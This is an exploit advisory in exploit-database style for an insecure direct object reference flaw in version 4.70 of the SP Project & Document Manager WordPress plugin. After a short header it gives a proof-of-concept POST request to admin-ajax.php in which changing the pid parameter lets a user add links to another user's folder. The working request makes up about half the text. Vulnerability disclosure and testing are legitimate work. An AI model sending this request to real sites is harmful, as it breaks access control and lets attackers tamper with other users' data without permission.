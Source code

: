 # Exploit Title: SP Project & Document Manager v4.70 - Insecure Direct Object Reference(IDOR)
## Date: 2/20/2024
## Vendor Homepage: https://cn.wordpress.org/plugins/sp-client-document-manager/
## Tested on: Debian Linux, Apache, Mysql
## Vendor: SP Project & Document Manager
## Version: v4.70
## Exploit Description:
## SP Project & Document Manager v4.70 suffers from IDOR - Broken Access Control Vulnerability allowing attackers to add link in folder that is assigned to other user(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
POST /wp-admin/admin-ajax.php HTTP/1.1
...

pid=2(CHANGE HERE)&action=sp_cdm_link_save_embed&uid=2&link-name=link1&link-url=http%3A%2F%2Flocalhost%3A8020%2Flink1&dlg-upload-notes=aaa
```
